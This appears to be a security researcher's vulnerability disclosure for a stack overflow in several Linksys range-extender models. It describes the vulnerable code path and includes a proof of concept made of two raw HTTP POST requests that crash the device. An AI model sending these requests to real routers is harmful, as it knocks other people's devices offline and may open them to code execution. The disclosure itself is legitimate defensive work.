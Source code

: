 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `algDisable` function, `opMode` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `opMode` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

In `algDisable` function.

`mod_form.so->sysctl`

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

In `sysctl` binary:

Eventually, the initial input will be directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/3.png" style="zoom:60%;" /></div>

Vulnerability trigger steps:

* set `opMode`=**aaaaa......**, in (`setOpMode`)
* Trigger the vulnerability, in (`algDisable`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `opMode` as **aaaaa......** , and the router will excute it,such as:

```http
POST /goform/setOpMode HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.1.10
Connection: close
Referer: http://192.168.1.10/admin/log.shtml
Cookie: session_id=E5jXYJpdIt9uwDkyOhb1jjLpCngj89gL
Upgrade-Insecure-Requests: 1

opMode=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&natEnbl=&tcp_timeout=&udp_timeout
```

Trigger the vulnerability, in (`algDisable`)

```http
POST /goform/algDisable HTTP/1.1
Host: 192.168.1.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.1.10
Connection: close
Referer: http://192.168.1.10/admin/log.shtml
Cookie: session_id=E5jXYJpdIt9uwDkyOhb1jjLpCngj89gL
Upgrade-Insecure-Requests: 1

pop3=&smtp=&rtp=&rtsp&mms=&sip=&h323=&ftp&tftp=&telnet=&msn=&ipsec=
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>


